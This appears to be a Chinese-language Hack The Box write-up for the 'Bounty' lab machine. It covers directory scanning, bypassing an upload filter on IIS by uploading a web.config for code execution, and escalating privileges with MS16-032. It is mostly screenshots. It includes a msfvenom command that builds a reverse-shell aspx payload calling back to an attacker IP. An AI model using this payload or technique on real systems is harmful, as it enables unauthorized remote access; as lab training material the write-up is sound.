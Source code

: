 +++
title = '0X006 Bounty'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE50b73d52938f8dd92624582f43421360image.png)

![](/htb_img/WEBRESOURCE158a53ed50b04b02fe88333a25910e95image.png)

# 获取立足点

目录扫描要仔细，gobuster最开始没扫出来，添加aspx后缀后扫出了：

![](/htb_img/WEBRESOURCEd074fad91d7ae895e3d24de42037f0c3image.png)

还有一个：

![](/htb_img/WEBRESOURCE290bef7cba7d9b437c8cef6f1fa1ed8aimage.png)

先上传一个试试：

![](/htb_img/WEBRESOURCEffd0b44cc682f4923731a293cd93e360image.png)

![](/htb_img/WEBRESOURCE14cb2d762c34f76a20036fa7fc577504image.png)

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.15 lPORT=8888 -f aspx -o cxk.aspx

![](/htb_img/WEBRESOURCEff697c6b8d0b448688cc2c2d7b448c5eimage.png)

看样子是后端校验：

![](/htb_img/WEBRESOURCE428c4be128599fd2c3cc19b820edbd6aimage.png)

这里是没想到的，我一直以为是常见的IIS解析漏洞，但是发现不行，后面看了一下官方文档，这里要FUZZ一下后缀，看看能上传哪些后缀：

![](/htb_img/WEBRESOURCE0ed7b3810f71f2d3a927add6bab5a3bbimage.png)

/SecLists-2023.2/Fuzzing/extensions-skipfish.fuzz.txt

发现congfig是可以使用的：

![](/htb_img/WEBRESOURCE381217727c5fde95497933ca69fb993aimage.png)

这个后缀在IIS7.0以上是可以getshell的：

[https://003random.com/posts/archived/2018/05/22/rce-by-uploading-a-web-config/](https://003random.com/posts/archived/2018/05/22/rce-by-uploading-a-web-config/)

同时可以在github找到相关项目：

https://github.com/0xPurpl3john/web.config

![](/htb_img/WEBRESOURCEdaecd0d5ed32bb9f118511101dcba521image.png)

![](/htb_img/WEBRESOURCEcc32ac0e88720bca4d2ecdddfd9ff008image.png)

![](/htb_img/WEBRESOURCE833669069ef148827677d372d1a1ae09image.png)

# 提权

![](/htb_img/WEBRESOURCEdb6c7fb99adecbc38aae0f5bc2df1bfdimage.png)

也是没有补丁的：

![](/htb_img/WEBRESOURCE39f51e9e0b66cda8726eba501f80d082image.png)

[https://github.com/zcgonvh/MS16-032/releases/tag/Release](https://github.com/zcgonvh/MS16-032/releases/tag/Release)

运行之前需要重新弹个shell:

![](/htb_img/WEBRESOURCE13637ed094fc8cff71e82ec81c435a3aimage.png)

![](/htb_img/WEBRESOURCE2a99ab8a07082ec27e2d6e7dddca9cc5image.png)

![](/htb_img/WEBRESOURCEe66629d806b17a054946a7d51858ecd3image.png)

![](/htb_img/WEBRESOURCEe1072ee6aeb1fa4934813b4752dee048image.png)

![](/htb_img/WEBRESOURCE64af2bfec5388fe2617f3e5daaad784fimage.png)